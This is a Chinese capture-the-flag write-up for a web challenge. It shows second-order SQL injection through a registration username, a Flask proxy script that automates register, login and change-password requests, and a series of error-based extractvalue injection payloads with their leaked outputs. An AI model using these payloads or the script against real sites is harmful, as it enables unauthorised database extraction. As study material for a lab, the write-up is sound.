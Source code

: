 ![[Pasted image 20230102083703.png|500]]

---
首页长这样
![[Pasted image 20230102083746.png]]

注册账户的时候卡了一下，看源码差点没晕掉，哪有`email`过滤`@`的QAQ
![[Pasted image 20230102084658.png|1000]]

使用用户名`admin"`注册，登录并在`changepwd.php`修改密码后，会出现错误提示
![[Pasted image 20230102094151.png|700]]

官方`wp`非常优雅地使用了代理转发来实现过程的自动化，赶紧学起来

```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = 'xxx.node4.buuoj.cn:81'
session = requests.Session()

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['username'])
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection', 'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)

def hack(username):
    register(username)
    login(username)
    return changepwd()

def register(username):
    paramsPost = {'password': '123', 'email': '11', 'username': username}
    session.post('http://{}/register.php'.format(end_host), data=paramsPost)

def login(username):
    paramsPost = {'password': '123', 'username': username}
    session.post('http://{}/login.php'.format(end_host), data=paramsPost)

def changepwd():
    paramsPost = {'oldpass': '', 'newpass': ''}
    response = session.post('http://{}/changepwd.php'.format(end_host), data=paramsPost)
    return response

app.run(port=80, debug=True)
```

![[Pasted image 20230102095135.png|1000]]

由于存在错误回显，尝试报错注入（空格、`right`、`limit`这些被`ban`了）
```sql
username=admin"^extractvalue(1,concat(0x5c,database()))#
```

```
XPATH syntax error: '\web_sqli'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))))#
```

```
XPATH syntax error: '\article,flag,users'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))))#
```

```
XPATH syntax error: '\flag'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(flag))from(flag))))#
```

```
XPATH syntax error: '\RCTF{Good job! But flag not her'
```

不在`flag`表里

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#
```

```
XPATH syntax error: '\name,pwd,email,real_flag_1s_her'
```

使用`regexp`获取被截断的项
```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))#
```

```
XPATH syntax error: '\real_flag_1s_here'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users))))#
```

```
XPATH syntax error: '\xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'
```

再次使用`regexp`匹配

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\flag{a8f839e3-d22e-4629-a4f9-3a'
```

使用`reverse`获取被截断的内容

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(reverse(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\}f44af64b92a3-9f4a-9264-e22d-3e'
```

倒转后拼接即可

#Web #SQL注入 #代理 #报错注入 #绕过 